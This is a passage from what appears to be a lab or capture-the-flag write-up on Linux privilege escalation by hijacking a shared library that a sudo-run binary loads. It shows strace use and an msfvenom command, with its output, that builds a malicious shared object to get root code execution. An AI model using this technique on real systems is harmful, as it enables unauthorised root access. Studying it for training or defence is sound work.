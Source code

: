 ## Strace

Running strace to log all the syscalls the binary is making also works:

![output of running strace on stock](Assets/strace_on_stock.jpg)

Now all that is left is to write a malicious shared object, put in at that path and run the program as sudo to get code exec as root! Again we have a few options here:

## msfvenom

Probably the easiest way is to use msfvenom. There are various payloads available, but a simple exec will save us starting another listener or other handler.

```bash
$ msfvenom -p linux/x64/exec -f elf-so -o libcounter.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 21 bytes
Final size of elf-so file: 423 bytes
Saved as: libcounter.so
```

![msfvenom payload in ghidra](Assets/msfvenom_decompilation.jpg)
